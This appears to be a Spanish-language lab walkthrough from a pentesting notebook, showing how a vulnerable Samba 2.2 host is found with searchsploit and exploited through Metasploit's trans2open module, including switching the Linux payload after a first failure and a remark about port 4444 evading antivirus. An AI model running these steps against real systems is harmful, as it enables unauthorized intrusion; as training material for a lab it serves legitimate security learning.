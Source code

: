 # 3 - First Explotation

Hype

Recordando las notas vimos que teniamos un objetivo con SAMBA 2.2 

Buscamos eso con

```text
$ searchexploit samba 2.2    
```

![](../../../.gitbook/assets/imagen%20%28298%29.png)

Notar como se repite varias veces el "trans2open" eso es buena señal de que tenemos un potencial ataque presente

## Desde **metasploit**

```text
search trans2open
```

![](../../../.gitbook/assets/imagen%20%28295%29.png)

Recordar que vimos que corria linux de fondo asi que tenemos esto

```text
use 1
options 
set rhost ip vulnerable
show targets
exploit //o run pero no es tan fachero
```

![](../../../.gitbook/assets/imagen%20%28294%29.png)

Ahora al correr eso lo intenta pero falla en el proceso. Algo sucede con el payload asi que metasploit nos da una nueva opcion para manejar el mismo payload: **payload options**

![](../../../.gitbook/assets/imagen%20%28296%29.png)

Los 4444 en la vida real son atrapados por antivirus ya que son comunes para este tipo de ataques, para esto no importa mucho.

Tratermos de modificarlo un poco haciendo set payload linux/x86/ tab tab y sale lo siguiente

![](../../../.gitbook/assets/imagen%20%28293%29.png)

Probamos este

![WE WON](../../../.gitbook/assets/imagen%20%28292%29.png)



\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

